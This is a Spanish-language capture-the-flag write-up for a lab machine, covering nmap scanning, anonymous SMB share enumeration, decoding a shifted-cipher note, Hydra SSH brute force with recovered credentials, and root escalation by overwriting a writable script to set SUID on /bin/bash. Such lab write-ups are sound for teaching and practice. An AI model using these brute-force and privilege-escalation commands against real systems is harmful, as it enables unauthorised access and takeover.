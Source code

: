 Empezamos haciendo un escaneo de puertos:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

Y nos da los siguientes puertos abiertos:

```
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 aa:df:30:8b:17:c5:3c:80:1c:88:f1:f8:c0:ac:cc:fa (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIwcQLG7cG3zykVrxNhY3Zf8Oeu1rZrDHXovo6xce8rYj7bvEKWHidRa32QtZQlumnfzwSMFrfeat8T1st72IVI=
|   256 aa:6a:33:65:fc:54:b7:8f:98:ff:1f:3d:79:a3:05:3c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPi9HNorx51v8Q8nh0LuhsEgTIC1KB/UrY6Sw5/Im9y4
139/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4
445/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 21783/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 4261/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 58197/udp): CLEAN (Timeout)
|   Check 4 (port 17420/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2025-07-03T21:45:06
|_  start_date: N/A
|_clock-skew: 0s
```

Nos llama la atención el puerto 445, por lo tanto vamos a tirar el reconocimiento por ahí. 

Ejecutamos el siguiente comando:

```
smbclient -L 172.17.0.2 -N

    Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        darkshare       Disk      
        IPC$            IPC       IPC Service (5e24847105d5 server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
Protocol negotiation to server 172.17.0.2 (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
```

Nos conectamos a smb y vemos que hay un montón de archivos. Nos los descargamos todos.

```
smbclient  \\\\172.17.0.2\\darkshare
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Dec 14 05:24:32 2024
  ..                                  D        0  Sat Dec 14 05:24:32 2024
  archivesDatabases.txt               N      563  Sat Dec 14 05:16:30 2024
  ilegal.txt                          N      204  Sat Dec 14 05:24:32 2024
  credentials.txt                     N      631  Sat Dec 14 05:17:13 2024
  hackingServices.txt                 N      662  Sat Dec 14 05:18:19 2024
  drugs.txt                           N      526  Sat Dec 14 05:17:49 2024
```

El archivo que nos muestra algo importante es el de *ilegal.txt*:

```
cat ilegal.txt         

St qj htrufwyfx jxyf uflnsf f sfinj, xtqt vznjwt vzj qt ajfx yz, df vzj jxyt rj uzjij rjyjw jq uwtgqjrfx: q2kmnaxwhgdy2sz5wnqrarvrmuemzlfn5xewrdwxdgtdpeaxtpki6ini.tsnts

#NOTE:

use 5, you understand me
```

Vemos que es un mensaje que puede estar cifrado. Probamos en cyberchef a ver en que está cifrado.

En cyberchef conseguimos descifrarlo, estaba cifrado en rot 2. El mensaje descifrado es:

```
No le compartas esta pagina a nadie, solo quiero que lo veas tu, ya que esto me puede meter el problemas: l2fhivsrcbyt2nu5rilmvmqmhpzhugai5szrmyrsyboykzvsokfd6did.onion
```

Se trata de una página de tor al ser .onion 
Nos devuelve esta web:

![](./images/1.png)


Le damos a *Access the Darkest Web* y nos muestra esto:

![[Captura de pantalla 2025-07-04 002133.png]]

Seleccionamos *Red Room 27* y nos manda a esta página, donde le preguntamos por user, éste nos devuelve un nombre de usuario.

![](./images/3.png)

A continuación debemos buscar un diccionario para intentar hacer fuerza bruta con ese usuario 

En el apartado *Hidden Marketplace* vemos cosas sospechosas, por tanto leemos el código fuente y vemos un nombre de un posible diccionario

![](./images/4.png)

Vemos que nos tiene que redirigir a un archivo de texto, pero no sabemos como, probamos poniéndolo en la url y tenemos premio


![](./images/5.png)

Todas estas posibles contraseñas nos las metemos en un archivo y a continuación, con el usuario que tenemos (dark) hacemos fuerza bruta para entrar por ssh:

```
hydra -l dark -P contraseñas.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-03 18:32:46
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 51 login tries (l:1/p:51), ~4 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: dark   password: oniondarkgood
```

Y ahora entramos por ssh con estas credenciales y leemos la primera flag del usuario:

```
dark@5e24847105d5:~$ ls
hidden.py  user.txt
dark@5e24847105d5:~$ cat user.txt
2eedcb4e067f16aa9c795fd05f3056bd
dark@5e24847105d5:~$ 
```

Ahora para escalar privilegios hacemos un sudo -l:

```
dark@5e24847105d5:~$ sudo -l
Matching Defaults entries for dark on 5e24847105d5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User dark may run the following commands on 5e24847105d5:
    (ALL : ALL) NOPASSWD: /home/dark/hidden.py
```

Vemos que ejecutamos como root ese script. Este script haría esto:

```
dark@5e24847105d5:~$ cat hidden.py 
#!/bin/python3

import subprocess

# Ruta al archivo Update.sh
script_path = '/usr/local/bin/Update.sh'

# Ejecutar el script de Bash
try:
    subprocess.run(['bash', script_path], check=True)
    print("Script ejecutado con éxito.")
except subprocess.CalledProcessError as e:
    print(f"Hubo un error al ejecutar el script: {e}")
```

Lo ejecutamos y:

```
dark@5e24847105d5:~$ ./hidden.py 
dark
Script ejecutado con éxito.
```

Si leemos el script vemos que ejecuta un Update.sh, que está en la ruta /usr/local/bin/. En dicha ruta somos del grupo de la carpeta por tanto podemos eliminarla y crearnos nuestro *Update.sh* de esta manera:

```
#!/bin/bash

chmod u+s /bin/bash
```

Lo guardamos, le damos permisos de ejecución y ahora si ejecutamos el script como sudo:

```
dark@5e24847105d5:~$ sudo /home/dark/hidden.py
Script ejecutado con éxito.
dark@5e24847105d5:~$ bash -p
bash-5.2# whoami
root
```

Y finalmente, pwned :)